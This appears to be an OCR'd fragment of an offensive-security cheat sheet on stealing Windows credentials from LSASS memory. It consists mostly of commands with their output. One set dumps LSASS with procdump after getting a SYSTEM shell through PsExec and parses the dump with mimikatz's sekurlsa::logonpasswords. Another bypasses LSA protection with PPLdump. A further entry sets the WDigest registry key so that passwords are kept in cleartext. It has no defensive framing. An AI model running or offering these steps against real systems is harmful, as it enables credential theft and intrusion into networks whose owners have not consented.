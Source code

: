 ```

# get local copy
> download c:\windows\tasks\lsass.dmp

# local windows
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit 
```

###### Disable LSA Protection and Dump with PPLDump

```
# bypass PPL and create dump
\PPLdump.exe lsass.exe C:\users\administrator\desktop\lsassdmp.txt

# inline parse
minidump.exe lsass.dmp
```

###### Cleartext Creds

Set `HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest` and wait for next logon.

###### Offline LSASS

Via `procdump.exe`

```
# get system shell
> c:\Tools\SysinternalsSuite>PsExec.exe -i -s cmd

# create dump
>.\procdump.exe -ma lsass.exe c:\tools\lsass.dmp

ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com


ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[13:24:51] Dump 1 initiated: c:\tools\lsass.dmp
[13:24:52] Dump 1 writing: Estimated dump file size is 45 MB.
[13:24:52] Dump 1 complete: 45 MB written in 0.7 seconds
[13:24:52] Dump count reached.
```

Parse via Mimikatz

```
mimikatz # sekurlsa::minidump lsass.dmp

mimikatz # sekurlsa::logonpasswords
```
